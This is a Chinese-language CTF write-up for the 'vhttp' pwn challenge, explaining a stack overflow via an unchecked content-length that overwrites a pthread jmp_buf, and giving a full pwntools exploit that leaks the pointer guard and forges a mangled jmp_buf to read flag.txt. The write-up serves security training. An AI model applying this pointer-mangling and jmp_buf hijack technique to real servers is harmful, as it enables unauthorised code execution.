



# vhttp

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.12|

## 解题思路

程序实现了一个简单的http服务器，没有路径穿越符漏洞；不能直接打开目录下的flag.txt，
是由`strstr`拦截的；不能使用`%2F`这样的转义字符串，服务器不支持。那就逆一下程序，
对于输入的三元组和键值对来说，都没有什么bug。但是主函数里只取用了`content-length`这一个标头，
跟到解析请求资源的函数里，发现程序会按`content-length`读入这么多的字节数，
并且没有做限制。观察栈上结构，在输入的`buf`之上是用于`longjmp`的`jmp_buf`，
触发条件也有，因此尝试覆写之。程序通过特定字符串的判断，给了1次读取栈上内容的机会，
也给了`longjmp`的机会。

这道题采用了`fread`，不同于`read`，`fread`只有读取指定的长度后才会停止，
不像`read`只需要`send`结束就可以结束输入。那么就出现了一个问题：
`jmp_buf`的结构中RBP、RSP、RIP是受`fs:[0x30]`保护的，要想读取它们来解密`fs:[0x30]`就不能覆盖，
但是为了利用这个结构体却不能覆盖。难道要打rop？程序是没有返回的！
任何结果都是直接`exit`的。那么在栈上查找其他数据，发现还有一个`jmp_buf`:

```c
struct jmp_buf {
    size_t rbx;
    size_t rbp;
    size_t r12;
    size_t r13;
    size_t r14;
    size_t r15;
    size_t rsp;
    size_t rip;
    ...
};
```



而这个`jmp_buf`是由程序使用了pthread库后创建线程带来的，其中的RBP是0，
那么RBP的位置可以直接获得`guard`(`fs:[0x30]`)的值，还可以获得一个主线程的栈地址。为了读取`flag.txt`，
我们需要想方设法在栈上留一个`&'flag.txt'`，三元组是保存在`bss`上的，content是保存在子线程的栈上的，
而这个栈帧的值我们是不知道的，只有标头键值对中的最后一组会留在主线程的栈上。
那么只要最后写一个`flag.txt`的标头就可以做到，然后设置好RBP、RSP，将RIP设置为`0x401ec7`，
就可以让程序读取`flag.txt`并打印flag。


> 温馨提示：与上图不是一个进程



## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vhttp'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x401dd1')
    else:
        sh = remote('node5.buuoj.cn', 27536)
    elf = ELF(EXE)

    ADD_LINE = lambda s, cont: s + cont + '\r\n'

    base = ADD_LINE('', 'GET / HTTP/1.0')
    base = ADD_LINE(base, 'content-length: {}')
    base = ADD_LINE(base, 'flag.txt: 0')
    base = ADD_LINE(base, '')

    toleak = base.format(512 + 0x100 + 8).encode()
    sh.send(toleak)
    
    toleak = b'\r\nuser=newbew'.ljust(512 + 0x100) + b'LEAK PTR'
    sh.send(toleak) # leak the jmp_buf from pthread
    sh.recvuntil(b'LEAK PTR')

    encrypted = sh.recv(8)
    stack = u64(sh.recv(6) + b'\0\0')
    
    guard = 0
    PTR_DEMANGLE = lambda reg: ((reg >> 17) | ((reg & 0x1ffff) << (64 - 17))) ^ guard
    PTR_MANGLE = lambda reg: (((reg ^ guard) & 0x7fffffffffff) << 17) \
                            | (((reg ^ guard) & 0xffff800000000000) >> 64 - 17)

    guard = PTR_DEMANGLE(u64(encrypted))
    success(f'Leak ptr guard: {guard:#x}')
    success(GOLD_TEXT(f'Leak stack: {stack:#x}'))

    rbp = stack - 0xe + 0xe0 # now rbp points to &'flag.txt'
    rbp += 0x3a0 # now rbp is "resolved file path"
    tojump = b'&pass=v3rdant'.ljust(0x200) + p64(0) + p64(PTR_MANGLE(rbp)) + \
            p64(0) * 4 + p64(PTR_MANGLE(rbp - 0x3e0)) + p64(PTR_MANGLE(0x401ec7))
    tojump = tojump.ljust(0x308)
    sh.send(tojump)

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(flag.decode())
```
